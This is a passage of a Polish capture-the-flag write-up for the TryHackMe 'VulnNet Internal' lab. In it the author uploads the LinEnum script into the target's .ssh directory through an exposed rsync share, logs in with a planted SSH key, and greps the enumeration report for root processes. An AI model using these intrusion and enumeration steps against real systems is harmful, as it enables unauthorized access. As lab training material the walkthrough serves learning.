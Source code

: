 Podobnie robię z aplikacją ```LinEnum```, którą pobieram z [GitHub](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) na własną maszynę poleceniem:
```
git clone https://github.com/rebootuser/LinEnum.git
```
Następnie za pomocą ```rsync``` kopiuję plik ```LinEnum.sh``` i jak już zaloguję się przez ssh za pomocą wcześniej utworzonych pary kluczy tworzę raport, który pobieram w celu analizy.
```
┌──(kali㉿kali)-[~/Desktop/TryHackMe/VulnNe_Internal]
└─$ rsync -r LinEnum.sh rsync://rsync-connect@<IP_atakowanej_masz>/files/sys-internal/.ssh/
┌──(kali㉿kali)-[~/Desktop/TryHackMe/VulnNe_Internal]
└─$ ssh -i id_rsa sys-internal@<IP_atakowanej_masz>

sys-internal@vulnnet-internal:~$ ./LinEnum.sh -r raport.txt -e .
```
![coś_poszło_nie_tak](/screens/v_katalog_TC.png)

Po utworzeniu raportu z aktywnymi usługami za pomocą ```LinEnum``` pobieram go na swoją maszynę. Następnie przeglądam ten raport i znajduję informację o uruchomionej usłudze ```TimeCity``` na uprawnieniach ```root```
[](/screens/v_LinEnum_raport.png)
```
┌──(kali㉿kali)-[~/Desktop/TryHackMe/VulnNe_Internal]
└─$ cat raportLinEnum.txt | grep -A100 -i services | grep root
root         1  0.0  0.3 159568  7664 ?        Ss   10:55   0:01 /sbin/init splash
root         2  0.0  0.0      0     0 ?        S    10:55   0:00 [kthreadd]
root         4  0.0  0.0      0     0 ?        I<   10:55   0:00 [kworker/0:0H]
root         6  0.0  0.0      0     0 ?        I<   10:55   0:00 [mm_percpu_wq]
root         7  0.0  0.0      0     0 ?        S    10:55   0:00 [ksoftirqd/0]
root         8  0.0  0.0      0     0 ?        I    10:55   0:01 [rcu_sched]
root         9  0.0  0.0      0     0 ?        I    10:55   0:00 [rcu_bh]
root        10  0.0  0.0      0     0 ?        S    10:55   0:00 [migration/0]
root        11  0.0  0.0      0     0 ?        S    10:55   0:00 [watchdog/0]
root        12  0.0  0.0      0     0 ?        S    10:55   0:00 [cpuhp/0]
root        13  0.0  0.0      0     0 ?        S    10:55   0:00 [kdevtmpfs]
root        14  0.0  0.0      0     0 ?        I<   10:55   0:00 [netns]
root        15  0.0  0.0      0     0 ?        S    10:55   0:00 [rcu_tasks_kthre]
root        16  0.0  0.0      0     0 ?        S    10:55   0:00 [kauditd]
root        17  0.0  0.0      0     0 ?        S    10:55   0:00 [xenbus]
root        18  0.0  0.0      0     0 ?        S    10:55   0:00 [xenwatch]
root        19  0.0  0.0      0     0 ?        I    10:55   0:00 [kworker/0:1]
root        20  0.0  0.0      0     0 ?        S    10:55   0:00 [khungtaskd]
root        21  0.0  0.0      0     0 ?        S    10:55   0:00 [oom_reaper]
root        22  0.0  0.0      0     0 ?        I<   10:55   0:00 [writeback]
root        23  0.0  0.0      0     0 ?        S    10:55   0:00 [kcompactd0]
```